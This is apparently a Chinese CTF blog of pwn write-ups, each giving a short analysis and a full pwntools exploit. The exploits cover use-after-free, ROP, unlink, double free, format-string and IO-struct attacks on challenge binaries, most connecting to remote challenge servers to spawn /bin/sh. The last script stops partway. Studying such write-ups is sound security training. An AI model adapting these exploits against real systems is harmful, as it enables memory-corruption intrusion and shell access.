


做到哪个题写哪个题,难度不一,内容没有先后顺序
Use-After-Free
UAF漏洞，通常在free某段内存后，由于”悬垂指针”引起的漏洞，是一种内存破坏漏洞
题目分析
因为TCL，所以无从下手，看过WP才知道，还是我TCL，下面是我自己写的WP
1 | $ checksec time_formatter |
2 | Arch: amd64-64-little |
3 | RELRO: Partial RELRO |
4 | Stack: Canary found |
5 | NX: NX enabled |
6 | PIE: No PIE (0x400000) |
7 | FORTIFY: Enabled |
可以通过UAF漏洞进行利用，从而攻击成功,其中strdup分配空间，选择5时会free分配的空间,导致形成悬垂指针
利用
1 | from pwn import* |
2 | #p = process('./time_formatter') |
3 | p = remote('111.198.29.45',52670) |
4 | def Format(fmt): |
5 | p.sendlineafter('>','1') |
6 | p.sendlineafter('Format:',fmt) |
7 | p.recvuntil('set.') |
8 | def time(tm): |
9 | p.sendlineafter('>','2') |
10 | p.sendlineafter('Enter your unix time: ',tm) |
11 | p.recvuntil('set.') |
12 | def Zone(zn): |
13 | p.sendlineafter('>','3') |
14 | p.sendlineafter('Time zone:',zn) |
15 | p.recvuntil('set.') |
16 | def Exit(var): |
17 | p.sendlineafter('>','5') |
18 | p.sendlineafter('?',var) |
19 | Format('%x') #分配空间 |
20 | Exit('~') # free空间，悬垂指针 |
21 | Zone("\';/bin/sh\'") # 写入命令于BSS段 |
22 | p.sendline('4') |
23 | p.interactive() |
下载
Stack2
分析
最初拿到文件，checksec一番,没有地址随机,IDA静态分析一下，很简单就知道程序可以通过修改数组里面的值这个步骤，将下标设置为返回地址的位置，单个字节的修改
而且程序本身也有backdoor的函数，那么，这不就简单了么，直接修改返回地址，轻松拿flag
呀呀呀！！！怎么回事？？

问题与解决方案
那么从这里我们知道，对应服务器镜像里是没有bash这个文件的，这里有个小技巧，就是终端运行’sh’也能达到和/bin/sh一样的效果
那么我们可以很轻易的修改返回地址为system函数的plt地址，隔四个字节，修改参数为’sh’的地址
通过IDA按d，变成如下的形式

我们只需要取其中0x8048987对应的sh即可
利用
EXP:
1 | from pwn import* |
2 | #p = process('./stack2') |
3 | p = remote('111.198.29.45',50512) |
4 | context.log_level = 'debug' |
5 | #gdb.attach(p) |
6 | elf = ELF('./stack2') |
7 | system_addr = 0x8048450 |
8 | p.sendlineafter('How many numbers you have:','100') |
9 | cnt = 0 |
10 | p.recvuntil('Give me your numbers') |
11 | while True: |
12 | p.sendline('0') |
13 | cnt = cnt + 1 |
14 | if cnt == 100: |
15 | break |
16 | def modify(var,modify): |
17 | p.sendlineafter('exit','3') |
18 | p.sendlineafter('which number to change:',str(var)) |
19 | p.sendlineafter('new number:',str(modify)) |
20 | |
21 | modify(132,80) |
22 | modify(133,132) |
23 | modify(134,4) |
24 | modify(135,8) |
25 | log.success('Have Modify The Ret Address') |
26 | modify(140,0x87) |
27 | modify(141,0X89) |
28 | modify(142,0X04) |
29 | modify(143,0X08) |
30 | log.success('Have Modify The Argument') |
31 | p.sendlineafter('exit','5') |
32 | p.interactive() |
flag:
1 | cyberpeace{42e482df73332d15fcb0ad090e4c310b} |
ROP_Pwn
简单分析,无PIE,无Canary，栈溢出，而由于p64()必定含有’\x00’,故echo函数遇到’\x00’截断,对栈空间观察一番，可以利用ROP
1 | buf 0x00 UUUUUUUUU |
2 | 0x08 UUUUUUUUU |
3 | rbp 0x10 UUUUUUUUU |
4 | ret 0x18 Func_ONE |
5 | 0x20 UUUUUUUUU |
6 | 0x28 UUUUUUUUU |
7 | 0x30 UUUUUUUUU |
8 | 0x38 Func_ONE |
9 | 0x40 ....... |
当Func_ONE地址由p64()转化为字符串遇到’\x00’截断，我们输入的payload会在Func_ONE 之后0x18个字节，故，利用csu_gadget的一段pop掉0x20个字节的内容，剩下的则为简单的栈溢出了.
EXP
1 | from pwn import* |
2 | from LibcSearcher import* |
3 | p = remote('111.198.29.45',46310) |
4 | context.log_level = 'debug' |
5 | #p = process('welpwn') |
6 | elf = ELF('welpwn') |
7 | puts_plt = elf.plt['puts'] |
8 | puts_got = elf.got['puts'] |
9 | payload = 'U'*0x18 + p64(0x40089C) +p64(0x4008A3) + p64(puts_got) + p64(puts_plt+4) +p64(0x4007CD) |
10 | p.recvuntil('Welcome to RCTF\n') |
11 | p.sendline(payload) |
12 | p.recvuntil('\x9C\x08\x40') |
13 | puts_addr = u64(p.recv(6).ljust(8,'\x00')) |
14 | libc = LibcSearcher('puts',puts_addr) |
15 | libcbase = puts_addr - libc.dump('puts') |
16 | binsh_addr = libcbase + libc.dump('str_bin_sh') |
17 | system_addr = libcbase + libc.dump('system') |
18 | payload_II = 'U'*0x18 + p64(0x40089C)+ p64(0x4008A3) + p64(binsh_addr) + p64(system_addr) +p64(0x4007CD) |
19 | p.sendline(payload_II) |
20 | p.interactive() |
下载
4-ReeHY-main-100 From XCTF
Pie关闭，got表可写，此题show功能没有，free后没有置0，存在UAF，具有多种解法，而在程序开始时会申请一个fastbin chunk用于存储create时的大小，那么这里我们可以手动构造堆溢出，从而实现unlink,后面就很明显了
1 | from pwn import* |
2 | p = process('./4-ReeHY-main') |
3 | p = remote('111.198.29.45',46710) |
4 | elf = ELF('4-ReeHY-main') |
5 | context.log_level = 'debug' |
6 | def create(size,index,content): |
7 | p.sendlineafter('$ ','1') |
8 | p.sendlineafter('Input size\n',str(size)) #size<=4096 [-00,0x1000] |
9 | p.sendlineafter('Input cun\n',str(index)) #index <=4 [-oo,4] |
10 | p.sendafter('Input content\n',content) |
11 | def delete(index): |
12 | p.sendlineafter('$ ','2') |
13 | p.sendlineafter('Chose one to dele\n',str(index)) |
14 | def edit(index,content): |
15 | p.sendlineafter('$ ','3') |
16 | p.sendlineafter('Chose one to edit\n',str(index)) |
17 | p.sendafter('Input the content\n',content) |
18 | p.sendlineafter('$','FMYY') |
19 | List = 0x6020E0 |
20 | create(128,0,'\x00'*0x80) |
21 | create(128,1,'\x00'*0x80) |
22 | delete(-2) |
23 | payload = p32(256) + p32(128) |
24 | create(20,2,payload) |
25 | payload = p64(0) |
26 | payload += p64(0x80) |
27 | payload += p64(List - 0x18) |
28 | payload += p64(List - 0x10) |
29 | payload = payload.ljust(0x80,'\x00') |
30 | payload += p64(0x80) |
31 | payload += p64(0x90) |
32 | edit(0,payload) |
33 | delete(1) |
34 | payload = '\x00'*0x18 + p64(elf.got['free']) +p64(1) + p64(elf.got['puts']) + p64(1) + p64(elf.got['atoi']) + p64(1) |
35 | edit(0,payload) |
36 | edit(0,p64(elf.plt['puts'])) |
37 | delete(1) |
38 | puts_addr = u64(p.recv(6).ljust(8,'\x00')) |
39 | log.success('Puts_Addr:\t' + hex(puts_addr)) |
40 | libc_base = puts_addr - 0x06f690 |
41 | system = libc_base + 0x045390 |
42 | log.success('System:\t' + hex(system)) |
43 | edit(2,p64(system)) |
44 | p.sendlineafter('$ ','/bin/sh\x00') |
45 | p.interactive() |
下载
Note3 From CGCTF
free后未置0，UAF漏洞，可以获得libcbase，然后double_free可以改malloc_hook为one_gadget
1 | from pwn import* |
2 | def add(size,content): |
3 | p.recvuntil('choice>>') |
4 | p.sendline('1') |
5 | p.recvuntil('Size:') |
6 | p.sendline(str(size)) |
7 | p.recvuntil('Content:') |
8 | p.sendline(content) |
9 | def show(index): |
10 | p.recvuntil('choice>>') |
11 | p.sendline('2') |
12 | p.recvuntil('Index:') |
13 | p.sendline(str(index)) |
14 | def edit(index,content): |
15 | p.recvuntil('choice>>') |
16 | p.sendline('3') |
17 | p.recvuntil('Index:') |
18 | p.sendline(str(index)) |
19 | p.sendline(content) |
20 | def free(index): |
21 | p.recvuntil('choice>>') |
22 | p.sendline('4') |
23 | p.recvuntil('Index:') |
24 | p.sendline(str(index)) |
25 | |
26 | p = remote('45.76.173.177',6666) |
27 | #context.log_level = 'debug' |
28 | add(0x88,'') |
29 | add(0x60,'') |
30 | add(0x60,'') |
31 | free(0) |
32 | show(0) |
33 | main_arena = u64(p.recv(6).ljust(8,'\x00')) - 88 |
34 | libc_base = main_arena - 0x397B00 |
35 | add(0x88,'') |
36 | free(1) |
37 | free(2) |
38 | free(1) |
39 | malloc_hook = main_arena - 0x10 |
40 | one_gadget = libc_base + 0xD694F |
41 | add(0x60,p64(malloc_hook - 0x23)) |
42 | add(0x60,'') |
43 | add(0x60,'') |
44 | add(0x60,'\x00'*19 + p64(one_gadget)) |
45 | p.sendlineafter('choice>>','1') |
46 | p.sendlineafter('Size:','16') |
47 | p.interactive() |
下载
Pwn_Me_100_3 From NCTF2019
由于free块后指向首块地址，则可以打印HEAP部分地址，然后计算存有0xDEADBEEF块的地址，再利用unlink达到任意写的目标，最后往0xDEADBEEF里写入0x66666666即可
1 | from pwn import* |
2 | context.log_level = 'debug' |
3 | def add(size,content): |
4 | p.sendlineafter('5,exit','1') |
5 | p.sendlineafter('size',str(size)) |
6 | p.sendafter('content',content) |
7 | def free(index): |
8 | p.sendlineafter('5,exit','2') |
9 | p.sendlineafter('idx',str(index)) |
10 | def show(index): |
11 | p.sendlineafter('5,exit','3') |
12 | p.sendlineafter('idx',str(index)) |
13 | def edit(index,content): |
14 | p.sendlineafter('5,exit','4') |
15 | p.sendlineafter('idx',str(index)) |
16 | p.send(content) |
17 | |
18 | p = process('./pwn_me_3') |
19 | p.recvuntil('are you ready?') |
20 | add(0x20,'S') #0 |
21 | add(0x20,'S') #1 |
22 | add(0x88,'M') #2 |
23 | add(0xF0,'M') #3 |
24 | |
25 | free(0) |
26 | free(1) |
27 | add(0x20,'S') #0 |
28 | show(0) |
29 | p.recvline() |
30 | Goal = u64(p.recv(3).ljust(8,'\x00')) - ord('S') + 0x10 |
31 | log.success('Goal_Addr:\t' + hex(Goal)) |
32 | |
33 | free(2) |
34 | Fake = 0x6020E8 |
35 | payload = p64(0) |
36 | payload += p64(0x81) |
37 | payload += p64(Fake-0x18) |
38 | payload += p64(Fake-0x10) |
39 | payload = payload.ljust(0x80,'\x00') |
40 | payload += p64(0x80) |
41 | add(0x88,payload) |
42 | free(3) |
43 | edit(1,p64(0)*2 + p64(Goal) + '\n') |
44 | edit(0,p64(0x66666666)) |
45 | p.sendline('5') |
46 | p.interactive() |
下载
babyfengshui From XCTF
主要需要绕过len+*ptr[idx] <= ptr[idx]-4,简单的堆溢出
1 | from pwn import* |
2 | def add(size,length,text): |
3 | p.sendlineafter('Action: ','0') |
4 | p.sendlineafter('description: ',str(size)) |
5 | p.sendlineafter('name: ','FMYY') |
6 | p.sendlineafter("length: ", str(length)) |
7 | p.sendlineafter('text: ',text) |
8 | def free(index): |
9 | p.sendlineafter('Action: ','1') |
10 | p.sendlineafter('index: ',str(index)) |
11 | def show(index): |
12 | p.sendlineafter('Action: ','2') |
13 | p.sendlineafter('index: ',str(index)) |
14 | def edit(index,length,text): |
15 | p.sendlineafter('Action: ','3') |
16 | p.sendlineafter('index: ',str(index)) |
17 | p.sendlineafter('length: ',str(length)) |
18 | p.sendlineafter('text: ',text) |
19 | p = process('./main') |
20 | elf = ELF('./main') |
21 | p = remote('111.198.29.45',54841) |
22 | #context.log_level ='debug' |
23 | add(0x80,0x80,'FMYY') |
24 | add(0x80,0x80,'FMYY') |
25 | add(0x8,0x8,'/bin/sh\x00') |
26 | free(0) |
27 | add(0x100,0x80+0x88+0x88+0xC,'\x00'*0x198+p32(elf.got['free'])) |
28 | show(1) |
29 | p.recvuntil('description: ') |
30 | libc_base = u32(p.recv(4)) - 0x070750 |
31 | log.info('Libc_Base:\t' + hex(libc_base)) |
32 | system = libc_base + 0x03A940 |
33 | edit(1,4,p32(system)) |
34 | free(2) |
35 | p.interactive() |
下载
easy_heap From NCTF
伪造chunk头,将块申请的bss段保存size的位置，然后就通过几个功能修改malloc_hook为one_gadget即可
1 | from pwn import* |
2 | def add(size, content): |
3 | p.sendline("1") |
4 | p.sendlineafter("What's your heap_size?\n", str(size)) |
5 | p.sendafter("What's your heap_content?\n", content) |
6 | p.recvuntil("4. exit\n") |
7 | |
8 | def free(index): |
9 | p.sendline("2") |
10 | p.sendlineafter("What's your heap_index?\n", str(index)) |
11 | p.recvuntil("4. exit\n") |
12 | |
13 | def show(index): |
14 | p.sendline("3") |
15 | p.sendlineafter("What's your heap_index?\n", str(index)) |
16 | p.recvuntil(": ") |
17 | data = p.recvline()[:-1] |
18 | p.recvuntil("4. exit\n") |
19 | return data |
20 | |
21 | p = process('./main') |
22 | p.recvline("What's your name?\n") |
23 | p.send(p64(0) + p64(0x61)) |
24 | p.recvuntil("4. exit\n") |
25 | |
26 | add(0x50,"FMYY") #0 |
27 | add(0x50,"FMYY") #1 |
28 | free(0) |
29 | free(1) |
30 | free(0) |
31 | add(0x50,p64(0x602060)) #2 |
32 | add(0x50,"FMYY") #3 |
33 | add(0x50,"FMYY") #4 |
34 | add(0x50,p64(0) + p64(0x80) + p64(0x601FB0) + p64(0)*7) #5 |
35 | libc_base = u64(show(0).ljust(8,"\x00")) - 0x6F690 |
36 | malloc_hook = libc_base + 0x3C4B10 |
37 | one_gadget = libc_base + 0xF1147 |
38 | |
39 | add(0x60,"FMYY") #1 |
40 | add(0x60,"FMYY") #2 |
41 | free(1) |
42 | free(2) |
43 | free(1) |
44 | add(0x60,p64(malloc_hook-0x23)) #1 |
45 | add(0x60,"FMYY") #2 |
46 | add(0x60,"FMYY") #1 |
47 | add(0x60,"\x00"*19 + p64(one_gadget)) |
48 | p.sendline('1') |
49 | p.sendlineafter('heap_size?','16') |
50 | p.interactive() |
下载
Supermarket From XCTF
XCTF的一个练习题,在edit_description处，由于reallcoc的申请空间的原理,造成UAF
1 | from pwn import* |
2 | def add(name,size,des): |
3 | p.sendlineafter('>> ','1') |
4 | p.sendlineafter('name:',name) |
5 | p.sendlineafter('price:','256') |
6 | p.sendlineafter('size:',str(size)) |
7 | p.sendlineafter('description:',des) |
8 | def free(name): |
9 | p.sendlineafter('>> ','2') |
10 | p.sendlineafter('name:',name) |
11 | def show(): |
12 | p.sendlineafter('>> ','3') |
13 | def edit_p(name,cp): |
14 | p.sendlineafter('>> ','4') |
15 | p.sendlineafter('name:',name) |
16 | p.sendlineafter('rise in:',str(cp)) |
17 | def edit_des(name,size,des): |
18 | p.sendlineafter('>> ','5') |
19 | p.sendlineafter('name:',name) |
20 | p.sendlineafter('descrip_size:',str(size)) |
21 | p.sendlineafter('description:',des) |
22 | p = remote('111.198.29.45',44827) |
23 | elf = ELF('./main') |
24 | libc = ELF('libc.so') |
25 | context.log_level ='debug' |
26 | add('I',0x88,'') |
27 | add('II',0x20,'') |
28 | edit_des('I',0xA0,'') |
29 | add('FMYY',0x90,'') |
30 | payload = 'FMYY' + '\x00'*12 + p32(0X200) + p32(0x90) + p32(elf.got['atoi']) |
31 | edit_des('I',0x88,payload) |
32 | show() |
33 | libc_base = u32(p.recvuntil('\xF7')[-4:]) - libc.sym['atoi'] |
34 | log.info('Libc_Base:\t' + hex(libc_base)) |
35 | system = libc_base + libc.sym['system'] |
36 | edit_des('FMYY',0x90,p32(system)) |
37 | p.sendlineafter('>> ','/bin/sh\x00') |
38 | p.interactive() |
下载
Noleak
首先利用unlink在bss段写shellcode,然后利用Partional Write将main_arena修改为malloc_hook-0x23,然后通过堆溢出将unsorted bin中的块放进fastbin,将shellcode的地址写在malloc_hook
1 | from pwn import* |
2 | context(arch='amd64',os='linux') |
3 | def add(size,data): |
4 | p.sendlineafter('Your choice :','1') |
5 | p.sendlineafter('Size: ',str(size)) |
6 | p.sendafter('Data: ',data) |
7 | def free(index): |
8 | p.sendlineafter('Your choice :','2') |
9 | p.sendlineafter('Index: ',str(index)) |
10 | def edit(index,size,data): |
11 | p.sendlineafter('Your choice :','3') |
12 | p.sendlineafter('Index: ',str(index)) |
13 | p.sendlineafter('Size: ',str(size)) |
14 | p.sendafter('Data: ',data) |
15 | libc = ELF('./libc-2.23.so',checksec=False) |
16 | unlink = 0x601040 |
17 | shell = 0x601000 |
18 | while True: |
19 | p = remote('111.198.29.45',46050) |
20 | try: |
21 | add(0x80,'\n') #0 |
22 | add(0x80,'\n') #1 |
23 | payload = p64(0) + p64(0x81) |
24 | payload += p64(unlink - 0x18) + p64(unlink-0x10) |
25 | payload = payload.ljust(0x80,'\x00') |
26 | payload += p64(0x80) + p64(0x90) |
27 | edit(0,0x90,payload) |
28 | free(1) |
29 | payload = '\x00'*0x18 + p64(shell) + p64(unlink) |
30 | edit(0,0x30,payload) |
31 | shellcode = asm(shellcraft.sh()) |
32 | edit(0,len(shellcode),shellcode) |
33 | #2 -> 3 -> 4 ->5 |
34 | add(0x10,'\n') |
35 | add(0x90,'\n') |
36 | add(0x60,'\n') |
37 | add(0x60,'\n') |
38 | free(3) |
39 | add(0x90,p16(0x4B10 - 0x23)) |
40 | free(4) |
41 | free(5) |
42 | edit(2,0x20,'\x00'*0x10+p64(0) + p64(0x71)) |
43 | edit(5,1,'\x30') |
44 | edit(1,16,p64(0)*2) |
45 | add(0x60,'\n') |
46 | add(0x60,'\n') |
47 | add(0x60,'\x00'*0x13 + p64(shell)) |
48 | p.sendlineafter('Your choice :','1') |
49 | p.sendlineafter('Size: ','16') |
50 | break |
51 | except: |
52 | p.close() |
53 | continue |
54 | p.interactive() |
下载
Recho
涨见识了,题目拿到分析不难,但是read返回值是个死循环,写EXP的时候就懵了,看过WP才知道alarm函数的汇编代码中,有调用到syscall,故将alarm的got表内地址改到syscall,然后利用系统调用号写ORW一把梭,最后用shutdown函数结束死循环
1 | from pwn import* |
2 | context.log_level = 'debug' |
3 | p = process('./main') |
4 | p = remote('111.198.29.45',37457) |
5 | elf = ELF('./main') |
6 | pop_rdi_ret = 0x4008A3 |
7 | pop_rax_ret = 0x4006FC |
8 | pop_rdx_ret = 0x4006FE |
9 | pop_rsi_r15 = 0x4008A1 |
10 | add_al_rdi = 0x40070D |
11 | FLAG = 0x601058 |
12 | payload = '\x00'*0x38 |
13 | payload += p64(pop_rax_ret) + p64(5) + p64(pop_rdi_ret) + p64(elf.got['alarm']) + p64(add_al_rdi) |
14 | payload += p64(pop_rax_ret) + p64(2) + p64(pop_rdi_ret) + p64(FLAG) + p64(pop_rdx_ret) + p64(0) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(elf.plt['alarm']) |
15 | payload += p64(pop_rax_ret) + p64(0) + p64(pop_rdi_ret) + p64(3) + p64(pop_rdx_ret) + p64(0x2D) + p64(pop_rsi_r15) + p64(elf.bss()+0x100) + p64(0) + p64(elf.plt['alarm']) |
16 | payload += p64(pop_rax_ret) + p64(1) + p64(pop_rdi_ret) + p64(1) + p64(pop_rdx_ret) + p64(0x2D) + p64(pop_rsi_r15) + p64(elf.bss()+0x100) + p64(0) + p64(elf.plt['alarm']) |
17 | |
18 | p.sendlineafter('server!\n',str(336)) |
19 | p.send(payload) |
20 | p.shutdown('write') |
21 | p.interactive() |
下载
Unary
地址越界写,先越界调用put的got表打印__libc_start_main的地址得到libc地址,然后越界调用scanf,第一个参数为%s写栈溢出
1 | from pwn import* |
2 | p = remote('66.172.27.144',9004) |
3 | elf = ELF('./main') |
4 | libc= ELF('./libc-2.27.so') |
5 | #context.log_level ='DEBUG' |
6 | ope = 0x600E00 |
7 | def leak(idx,addr): |
8 | p.sendlineafter('Operator:',str(idx)) |
9 | p.sendlineafter('x =',str(addr)) |
10 | offset = (elf.got['puts'] - ope)/8 + 1 |
11 | addr = elf.got['__libc_start_main'] |
12 | leak(offset,addr) |
13 | libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['__libc_start_main'] |
14 | libc.address = libc_base |
15 | og = [0x4F2C5,0x4F322,0x10A38C] |
16 | pop_rdi_ret = 0x4008D3 |
17 | system = libc.sym['system'] |
18 | binsh = libc_base + 0x1B3E9A |
19 | offset = (elf.got['__isoc99_scanf'] - ope)/8 + 1 |
20 | leak(offset,0x400916) |
21 | payload = 'U'*0x2C + p64(libc_base + og[1])#p64(pop_rdi_ret) + p64(binsh) + p64(system) |
22 | p.sendline(payload) |
23 | p.sendline('0') |
24 | p.interactive() |
下载
echo_back
见识少了,第一回遇到fmtstr漏洞与IO结构混在一起的题,题目除了一个SetName外,就只有一个仅能输入7字节的格式化字符串漏洞,通过该漏洞可打印pie,libc,而此处修改stdin中IO的buf_base为\x00继而可以从scanf输入更多的字符,并通过getchar满足read_ptr>=read_end
1 | from pwn import* |
2 | p = remote('111.198.29.45',41151) |
3 | #context(log_level='DEBUG') |
4 | libc = ELF('libc-2.23.so',checksec=False) |
5 | def name(name): |
6 | p.sendlineafter('choice','1') |
7 | p.send(name) |
8 | def echo(text): |
9 | p.sendlineafter('choice','2') |
10 | p.sendlineafter('length:','7') |
11 | p.send(text) |
12 | def leak(content): |
13 | echo(content) |
14 | p.recvuntil('anonymous say:') |
15 | return int(p.recv(14),16) |
16 | libc_base = leak('%19$p') - 0xF0 - libc.sym['__libc_start_main'] |
17 | libc.address = libc_base |
18 | pie = leak('%13$p') -0xD08 |
19 | ret = leak('%12$p') + 8 |
20 | system = libc.sym['system'] |
21 | binsh = libc.search('/bin/sh').next() |
22 | pop_rdi_ret = pie + 0xD93 |
23 | name(p64(libc.sym['_IO_2_1_stdin_'] + 8*7)) |
24 | echo('%16$hhn') |
25 | payload = p64(libc.sym['_IO_2_1_stdin_'] + 0x83)*3 + p64(ret) + p64(ret + 0x18) |
26 | p.sendlineafter('choice','2') |
27 | p.sendafter('length:',payload) |
28 | p.sendline() |
29 | for i in range(0,len(payload)-1): |
30 | p.sendlineafter('choice','2') |
31 | p.sendlineafter('length:','0') |
32 | payload = p64(pop_rdi_ret) + p64(binsh) + p64(system) |
33 | p.sendlineafter('choice','2') |
34 | p.sendafter('length:',payload) |
35 | p.sendline() |
36 | p.sendlineafter('choice','3') |
37 | og = [0x45216,0x4526A,0xF02A4,0xF1147] |
38 | one_gadget = libc_base + og[3] |
39 | p.interactive() |
下载
easyfmt
每次printf的时候偏移量都会加1,首先修改exit的地址以无限循环的运行if语句内的代码,然后就常规的修改printf的got表地址为system地址.
1 | from pwn import* |
2 | from LibcSearcher import* |
3 | libc = ELF('./libc-2.23.so',checksec=False) |
4 | context.log_level ='DEBUG' |
5 | p = remote('111.198.29.45',36807) |
6 | payload = '%2434c%11$hnLIBC:%43$p' |
7 | payload = payload.ljust(0x18,'U') |
8 | payload += p64(0x601060) |
9 | p.sendlineafter('enter:','2') |
10 | p.sendafter('slogan: ',payload) |
11 | p.recvuntil('LIBC:') |
12 | libc.address = int(p.recv(14),16) - 0xF0 - libc.sym['__libc_start_main'] |
13 | I = (libc.sym['system']&0xFF) |
14 | II = ((libc.sym['system']&0xFFFFFF)>>8) - I |
15 | payload = '%' + str(I) + 'c%13$hhn' + '%' + str(II) + 'c%14$hn' |
16 | payload = payload.ljust(0x20,'U') |
17 | payload += p64(0x601030) + p64(0x601031) |
18 | p.recvuntil('slogan: ') |
19 | p.sendline(payload) |
20 | p.sendlineafter('slogan: ','/bin/sh\x00') |
21 | p.interactive() |
下载
new_chall
有人询问我一个关于HouseOFRoman漏洞的例题为何本地打开ALSR则无法getshell,结果是这个利用方法概率太低,仅有1/4096的大小,全看脸的一道题,然后我就想利用IO做出来,然而这个题不知道是我虚拟机抽风还是题目本身很玄学,后面想在malloc_hook上方布置一个chunk块,怎么也不能申请到这个在malloc_hook上方的块,然后就想着利用scanf往free_hook里面写one_gadget,最后scanf那里不能通过,一直会弹invaild choice,再之后我试着劫持IO的虚表,然而虚表的位置无法写入,最后再试着利用malloc_hook改one_gadget去getshell,谁知道中途重启了一次电脑然后…然后居然可以打通了
1 | from pwn import* |
2 | def add(size,idx): |
3 | p.sendlineafter('Free',"1") |
4 | p.sendlineafter('Enter size of chunk :',str(size)) |
5 | p.sendlineafter('Enter index :',str(idx)) |
6 | |
7 | def free(idx): |
8 | p.sendlineafter('Free',"3") |
9 | p.sendlineafter('Enter index :',str(idx)) |
10 | |
11 | def edit(idx,data): |
12 | p.sendlineafter('Free',"2") |
13 | p.sendlineafter('Enter index of chunk :',str(idx)) |
14 | p.sendafter('Enter data :',data) |
15 | |
16 | p = process('./main') |
17 | libc = ELF('./libc-2.23.so',checksec=False) |
18 | #context.log_level ='DEBUG' |
19 | p.sendlineafter('Enter name :','FMYY') |
20 | add(0x18,0) |
21 | add(0xC8,1) |
22 | add(0x68,2) |
23 | edit(1,'\x00'*0x68 + p64(0x61)) |
24 | free(1) |
25 | add(0xC8,1) |
26 | add(0x68,3) |
27 | add(0x68,4) |
28 | add(0x68,5) |
29 | edit(0,'\x00'*0x18 + '\x71') |
30 | free(2) |
31 | free(3) |
32 | edit(3,'\x20') |
33 | edit(1,'\xDD\x25') |
34 | add(0x68,9) |
35 | add(0x68,9) |
36 | payload = '\x00'*0x33 + p64(0xFBAD1800) + p64(0)*3 + '\x88' |
37 | add(0x68,9) |
38 | edit(9,payload) |
39 | libc_base = u64(p.recvuntil('\x7F').ljust(8,'\x00')) - libc.sym['_IO_2_1_stdin_'] |
40 | libc.address = libc_base |
41 | free(4) |
42 | edit(4,p64(0)) |
43 | add(0x68,0) |
44 | free(0) |
45 | edit(0,p64(libc.sym['__malloc_hook'] - 0x23)) |
46 | add(0x68,0) |
47 | add(0x68,0) |
48 | p.sendlineafter('Free',"2") |
49 | p.sendlineafter('Enter index of chunk :','0') |
50 | p.send('\x00'*0x13+p64(libc_base + 0xF02A4)) |
51 | free(1) |
52 | free(1) |
53 | p.interactive() |
下载
EasyPwn
在第一个函数处由于溢出可覆盖’%s’为其他格式化字符串,因此存在格式化字符串漏洞
由于在改写GOT表的时候发送的构造部分也算作打印字符,故改写时的值需减去0x16个字节
1 | from pwn import* |
2 | p = remote('111.198.29.45',46636) |
3 | libc= ELF('./libc-2.23.so',checksec=False) |
4 | context.log_level ='DEBUG' |
5 | p.sendlineafter('Input Your Code:\n','1') |
6 | payload = 'U'*0x3E8+ 'MM'+ '%397$p%396$p' |
7 | p.send(payload) |
8 | p.recvuntil('%397$p%396$p') |
9 | libc_start = int(p.recv(14),16) - 0xF0 |
10 | pie = int(p.recv(14),16) -0xDA0 |
11 | libc_base = libc_start - libc.sym['__libc_start_main'] |
12 | free_got = pie+0x202018 |
13 | system = libc.sym['system']+ libc_base |
14 | I = (system & 0xFFFF) - 0x3E8 - 0x16 |
15 | II = ((system >> 16) & 0xFFFF) - 0x3E8 - 0x16 |
16 | III = ((system >> 32) & 0xFFFF) - 0x3E8 - 0x16 |
17 | p.sendlineafter('Input Your Code:\n','1') |
18 | payload = 'U' * 0x3E8 + ('MM%' + str(I) + 'c%133$hn') + p64(free_got) |
19 | p.sendline(payload) |
20 | p.sendlineafter('Input Your Code:\n','1') |
21 | payload = 'U' * 0x3E8 + ('MM%' + str(II) + 'c%133$hn') + p64(free_got + 2) |
22 | p.sendline(payload) |
23 | p.sendlineafter('Input Your Code:\n','1') |
24 | payload = 'U' * 0x3E8 + ('MM%' + str(III) + 'c%133$hn') + p64(free_got + 4) |
25 | p.sendline(payload) |
26 | p.sendlineafter('Input Your Code:\n','2') |
27 | p.send('/bin/sh\x00') |
28 | p.interactive() |
下载
1000levevls
利用VSYSCALL即可
1 | #coding=utf-8 |
2 | from pwn import* |
3 | p = remote('111.198.29.45',47070) |
4 | libc =ELF('./libc.so') |
5 | context(log_level ='DEBUG') |
6 | vsyscall = 0xFFFFFFFFFF600000 |
7 | offset = 0x4526A - libc.sym['system'] |
